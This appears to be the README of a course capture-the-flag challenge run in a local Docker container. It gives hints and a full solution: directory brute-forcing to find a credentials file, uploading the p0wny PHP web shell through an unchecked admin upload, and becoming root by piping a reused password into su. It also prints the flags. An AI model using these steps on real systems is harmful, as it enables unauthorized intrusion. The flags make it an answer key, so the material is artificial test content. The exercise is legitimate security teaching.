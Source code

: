 # Challenge Overview
This CTF Challenge was created as part of the Project Management course. It contains 3 flags and it is all about getting access one step at a time!

This challenge can be difficult for a student, so don't worry if you can't get it done. Also, don't forget to check the hints if you are struggling at some point.

# Getting started
First, download the challenge container.
```
docker pull ghcr.io/dbh201/challenge4:latest
```
Now, launch the container.
```
docker run -p 4443:4443 ghcr.io/dbh201/challenge4:latest
```
Access the website https://localhost:4443 and good luck!

At some point, you will use a reverse shell script in this challenge. If you are not familiar with them, we recommend one as a hint, so don't worry about it.

Also, Kali is not mandatory but recommended, since it has plenty of pre-installed tools that could be useful for this and other challenges. 

# Hints
## Flag 1
Can you get all 3 flags? Let's start by navigating to pages you are not supposed to see.
Wonder what kind of information you can find in there

<details>
    <summary>Hint 1</summary>
    Try navigating to a different directory
</details>

<details>
    <summary>Hint 2</summary>
    Some names are very common across different applications
</details>

<details>
    <summary>Hint 3</summary>
    Alright! Let's bruteforce! Kali has some cool pre-installed Web Crawlers & Directory bruteforces.
</details>

## Flag 2
How much can you do with your new admin account? There must be some way to control the forum.

<details>
    <summary>Hint 1</summary>
    You can definitely do a lot from the admin control panel!
</details>

<details>
    <summary>Hint 2</summary>
    Isn't it cool that you can even upload any file you want?
</details>

<details>
    <summary>Hint 3</summary>
    Some scripts (files) can even give you access to the system, just like magic.
</details>

<details>
    <summary>Hint 4</summary>
    give "p0wny" a try x)
</details>

## Flag 3
Now it's time to escalate...
You need to become root using your p0wny shell, but you can't seem to type in your password...


<details>
    <summary>Hint 1</summary>
    sudo will not work, so let's try switching user.
</details>

<details>
    <summary>Hint 2</summary>
    Can you believe some people reutilize their passwords?! Crazy, right?
</details>

<details>
    <summary>Hint 3</summary>
    It's all about the one-liners these days, isn't it?
</details>


# Solution
## Flag 1
Since we are supposed to look for pages that should be unacessible, we could try a few common names such as "/admin". However, some tools can do their job for us.

Dirb is a fantastic tool for that, and it is already installed in Kali. We can simply run it on our server (make sure you change the IP to match yours).
```bash

```
After checking some of the results, we will eventually find the /data directory, that contains some interest files such as "flag1.txt". 

![/data files](/IMG1.png?raw=true)

<details>
    <summary>By checking "flag1.txt" content we will find the first flag!</summary>
    <pre><code>
    flag1: Pr0Jmngmnt15c00l

    User: admin
    Password: thispasswordishuge!

    You got the flag! What a place for a password to be, right? :P
    How much can you do with your new admin account? There must be some way to control the forum. 
</code></pre>

</details>


## Flag 2
Now that we have admin credentials, let's see what we can do with that.

First, login with your recently "stolen" credentials! Hey, they shouldn't keep it on a text file!

Exploring some of the buttons on the forum, we will eventually come across "Administration", which will take us to the Admin Control Panel.

![/Administration button location](/IMG2.png?raw=true)

More exploring! After checking some of the links on the Admin Control Panel, we will eventually find the "File Administration System", where we can see, download, and - most important - upload some files.

![/Admin Control Panel home page](/IMG3.png?raw=true)

Good for us, this forum doesn't even check what files are being uploaded, so we are going to import a script!

Some scripts can grant you access to the system, and although programming one from scratch can be done, we will simply use an already-working solution.

p0wny is a php script that will allow you to get access to the server's terminal, check it out: https://github.com/flozz/p0wny-shell

The only file we will need is "shell.php". Let's upload it and then navigate to it. Don't forget to match your IP address, port, and file name. 

```
https://192.168.0.5:4443/shell.php
```

We now have access to the server's terminal as nginx's user.

![/p0wny's terminal](/IMG4.png?raw=true)

Unfortunely, we can't really find the flag here, so we need to navigate on the system. Changing our directory to www-data's home directory, then listing the files there, we will see flag2.txt.

```
cd
ls
cat flag2.txt
```

<details>
    <summary>Let's see what's inside of it</summary>
    <pre><code>
    flag2: BforBodyNotBook-ofKnowledge

    You got the flag! Now it's time to escalate...

    You need to become root using your p0wny shell, but you can't seem to type in your password...
</code></pre>

</details>

## Flag 3
Let's try escalating then! Why not starting with `sudo`?

```
www-data@fc1b13fe1365:/var/www# sudo ls /root
sh: 1: sudo: not found
```

Unfortunetely, `sudo` doesn't seem to work. How about we simply try to switch user with `su`?

```
www-data@fc1b13fe1365:/var/www# su 
Password: su: Authentication failure
```

Although `su` worked, the terminal doesn't prompt us for the password, maybe there is a way to provide that password in a one-liner?

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root
Password:
www-data@fc1b13fe1365:/var/www#
```

So this time we got no `Authentication failure`, so lucky us that the owner of this system decided to reuse his password. But if you check the user, it is still the same. Let's see if we can pass any command to that user.

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls"
Password: flag3.txt
```

The prompt is definitely a bit weird, but we just listed items on root. Let's also read it with `cat`!

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls; cat flag3.txt"
Password: flag3.txt
flag3: plzM477letU5pass

You got the last flag! Wasn't that easy?
```

Hope you enjoyed this challenge as much as we did!


# More Studies
If you want to go deeper into what you practiced in this Challenge, check some recommendations.

## Reverse Shell scripts
A reverse shell script was used in this challenge to gain access to the target machine. Although it was used to simulate an attack, these scripts can be used with no ill intentions.

Besides that, reverse shell scripts can be programmed in different languages, and even customized to your own project. Check some by yourself!

## Brute force tools
Bruteforce is a well known strategy that consists in trying over and over different combinations until you get the right one.

Although we use a directory brute force in this Challenge, there are many other types of brute force tools, the most common being password crackers. But also give it a try to explore other tools that interact with DNS and even biometrics. 

